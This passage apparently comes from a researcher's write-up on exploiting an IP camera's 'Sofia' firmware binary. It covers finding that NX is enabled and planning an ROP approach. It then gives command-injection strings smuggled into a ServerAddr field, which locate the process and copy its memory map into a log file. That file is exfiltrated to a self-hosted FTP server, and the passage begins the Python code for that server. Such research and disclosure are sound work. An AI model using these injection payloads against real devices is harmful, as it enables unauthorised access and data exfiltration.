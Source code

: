 We should be able to jump to the global buffers for the HTTP shenanigans again, and use this to jump to the larger HTTP buffer payload as before, let me just double check the memory is executable:

```
Start Addr   End Addr       Size     Offset  Perms   objfile
	    0x8000   0x68b000   0x683000        0x0  r-xp   /usr/bin/Sofia
	  0x693000   0x6cb000    0x38000   0x683000  rw-p   /usr/bin/Sofia
	  0x6cb000   0x95b000   0x290000        0x0  rw-p   
	  0xfe2000  0x12b4000   0x2d2000        0x0  rw-p   [heap]
...
```

Uh oh, looks like they learned how to use NX :( Looks like we (unfortunately) need a new strategy!

## Getting the Memory Map

As this binary now uses NX and we are using a string based bug (therefore no null terminators), we'll need to find gadgets in the imported shared objects in memory (as these are ASLR'd so their addresses probably won't contain zeros).

### Primitives

- **Command Injection**: I decided using the command injection to exfill the **maps** file for the process would be easiest, we can run mutiple commands so should be able to move files around
- **FTP Log Read**: One of the handlers with two stack overflows in (**0x7d8**) actually allows me to export the **/mnt/mtd/Log/Log** file to a self-hosted FTP server which will be handy for exporting the **maps** file

### **maps** Exfil

This ended up being quite simple to pull of with the following steps.

First, use the command injection to run the following commands (the full **ServerAddr** is presented below to demonstrate the injection):
```
192.168.1.100 & ps aux | grep Sofia > /tmp/p1 &
192.168.1.100 & cat /tmp/p1 | grep -v grep > /tmp/p2 &
192.168.1.100 & cat /tmp/p2 | cut -c3-5 > /tmp/pid &
192.168.1.100 & cat /proc/`cat /tmp/pid`/maps > /tmp/map &
192.168.1.100 & cp /tmp/map /mnt/mtd/Log/Log &
```

This process finds the *pid* of the **Sofia** binary, and copies the **maps** file into the **/mnt/mtd/Log/Log** file so it can be exported.

I came up against the following challenges during this process:
- The size of the injection is limited, hence the commands are split up and small names are used
- *$* is a bad character as well as a few others, which was particularly annoying for the fourth injection (but luckily \` was fine to use)

I then got the FTP server hosted and working, which allowed the camera to connect and upload to the **Test** directory within the main FTP directory, here is the thread implementation so it can be used without needing to run another script:

```
-python
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer
import threading
import time


class FTPServerThread(threading.Thread):
    def __init__(self, host="0.0.0.0", port=9898):
        super().__init__()
        self.host = host
        self.port = port
```